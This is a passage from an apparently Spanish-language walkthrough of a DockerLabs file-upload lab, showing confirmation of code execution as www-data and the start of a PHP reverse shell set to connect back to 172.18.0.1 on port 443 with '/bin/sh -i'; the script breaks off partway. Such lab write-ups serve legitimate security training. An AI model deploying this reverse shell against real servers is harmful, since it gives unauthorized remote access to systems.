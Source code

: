 Si accedemos a ese directorio, veremos que hay un archivo llamado `whoami.php` que corresponde con el que subimos anteriormente.

<br>
![](/blog/assets/dockerlab.es_upload/paso_8.png)
<br>

Si lo abrimos, veremos `www-data`, lo cual nos confirma que estamos ejecutando código en la máquina víctima.

<br>
![](/blog/assets/dockerlab.es_upload/paso_9.png)
<br>

Ahora es momento de crear una `reverse shell` para poder ingresar al servidor y poder escalar privilegios.

Para ello, hay una infinidad de reverse shells en PHP en la red, en mi caso usaré la siguiente:

```php
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '172.18.0.1';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
```
